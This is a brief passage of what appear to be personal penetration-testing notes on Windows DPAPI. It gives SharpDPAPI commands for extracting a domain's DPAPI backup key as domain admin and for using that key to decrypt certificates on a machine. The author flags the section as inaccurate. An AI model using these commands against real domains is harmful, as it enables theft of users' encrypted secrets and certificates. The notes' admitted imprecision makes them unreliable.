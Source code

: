 # DPAPI

@TODO: update this section because it's not exactly right.

Basically DPAPI is used for encryption purposes. If I have domain admin rights, I am able to retrieve the DPAPI master key for the domain and decipher any data encrypted with a DPAPI key of a domain user.

As a domain admin:

```powershell
> SharpDPAPI.exe backupkey /nowrap
```

## Retrieve certificates in a machine

With the backup key:

```powershell
> SharpDPAPI.exe certificates /pvk:<backup key>
```
